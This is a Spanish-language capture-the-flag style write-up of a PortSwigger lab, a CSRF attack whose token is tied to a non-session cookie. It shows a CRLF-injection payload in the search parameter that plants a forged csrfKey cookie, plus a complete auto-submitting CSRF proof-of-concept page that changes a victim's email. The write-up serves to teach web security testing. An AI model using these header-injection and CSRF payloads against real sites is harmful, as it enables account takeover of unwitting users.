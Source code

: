 `Tarea:`
Para resolver el laboratorio, utilice su servidor de exploits para alojar una página HTML que utilice un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Tienes dos cuentas en la aplicación que puedes usar para diseñar tu ataque. Las credenciales son las siguientes:

- `wiener:peter`
- `carlos:montoya`

iniciamos sesión en el laboratorio con las credenciales de `wiener` intentamos actualizar el correo y capturamos la petición. 

podemos ver un parámetro llamado `csrf` que es nuestro token y un segundo parámetro llamado `csrfKey` enviamos esta información al repeater y vamos a iniciar con el usuario `carlos` pare ver cuales son las diferencias
![[Pasted image 20250709132926.png]]

en este caso podemos ver los mismos parámetros. vamos a enviar esta solicitud al repeater para analizarla
![[Pasted image 20250709133409.png]]

analizando las dos solicitudes nos damos cuenta que los parámetros `csrf` y `csrfKey` son diferentes para ambos usuarios. así que lo mas seguro es que el token `csrf` este vinculado al `csrfKey` así que decidí probar los token del usuario `wiener` para la solicitud de actualización de correo de `carlos` y funciona pero aquí tenemos un problema


ya que el token `csrfKey` viene configurado con la `cookie` de sesión del usuario ¡aunque sean parámetros diferentes! no podemos construir el encabezado de la `cookie` que contiene esto valores ya que no tenemos toda la información necesaria. por lo que para continuar necesitamos una segunda vulnerabilidad en la que podamos forzar a la web a devolvernos un segundo encabezado de `cookies`
![[Pasted image 20250709133640.png]]

podemos realizar mas pruebas en la web. en este caso en el apartado de `Home` podemos realizar una búsqueda de un producto y interceptar esta solicitud
![[Pasted image 20250709144124.png]]

esta solicitud hace un `GET` sobre el parámetro `/search=` y si analizamos la respuesta podemos ver una nueva `cookie` llamada `LastSearchTerm` que es igual al valor de nuestra búsqueda

ahora bien. dependiendo de como se este validando esto podemos reconstruir nuestra propia `cookie` partiendo de aquí. 
![[Pasted image 20250709144043.png]]

## Descripción

El término CRLF se refiere a Retorno **de** **Carro** (ASCII 13 ) y Avance de **Línea** **(** ASCII 10 ). Se utilizan para indicar el final de una línea; sin embargo, su manejo es diferente en los sistemas operativos actuales. Por ejemplo, en Windows se requieren tanto CR como LF para indicar el final de una línea, mientras que en Linux/UNIX solo se requiere LF. En el protocolo HTTP, la secuencia CR-LF siempre se utiliza para terminar una línea.`\r``\n`

Un ataque de inyección CRLF ocurre cuando un usuario logra enviar un CRLF a una aplicación. Esto se realiza habitualmente modificando un parámetro HTTP o una URL. [OWASP-Top10](https://owasp.org/www-community/vulnerabilities/CRLF_Injection) 

partiendo de esta información sobre las vulnerabilidades web podemos agregar un retorno de carro `%0d` a nuestra búsqueda y efectivamente funciona
![[Pasted image 20250709150430.png]]

ahora bien. la finalidad de este ataque es lograr una respuesta de estatus `200 OK` como lo vimos en la imagen de arriba para poder seguir construyendo el payload de manera que podamos hacer una solicitud completa y estructurada de una nueva cookie 

```python
GET /?search=test%0d%0aSet-Cookie:%20csrfKey=KdqFrXzWr2aWPkpedy4R1HPHJIHdvMza HTTP/2
```

- `%0d` → `\r` (Carriage Return o retorno del carro)
- `%0a` → `\n` (Line Feed o salto de linea)
- `%20` → espacio ( el espacio en blanco entre un parámetro y otro)  

Entonces, lo que se está enviando realmente es:

```python
GET /?search=test Set-Cookie: csrfKey=KdqFrXzWr2aWPkpedy4R1HPHJIHdvMza HTTP/2
```

![[Pasted image 20250709150853.png]]

### ¿Cómo funciona internamente?

1. El atacante inyecta `%0d%0a` (CRLF) dentro del parámetro `search` de la URL.
2. Esto **simula el final de una cabecera HTTP y el comienzo de otra**, rompiendo la estructura normal de las cabeceras de respuesta del servidor.
3. Luego inyecta manualmente una cabecera nueva:

```python
Set-Cookie: csrfKey=KdqFrXzWr2aWPkpedy4R1HPHJIHdvMza
```
   
4. Si el servidor no valida ni escapa correctamente los datos del parámetro `search`, el navegador interpretará que la respuesta del servidor incluye **una cabecera adicional**: y aceptará esa cabecera falsa, creando una cookie en el navegador del usuario.

ahora vamos a generar el CSRF-Poc 
![[Pasted image 20250709161528.png]]

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae000fc0472d402b0e908df004c0012.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hackerpro2&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="WSbnmg42nw6ygCEc3rW1aYo1NTY9Cii6" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0ae000fc0472d402b0e908df004c0012.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=TSPoZzZQKC0oxSrzS0ccYPZwyy56L3r4%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

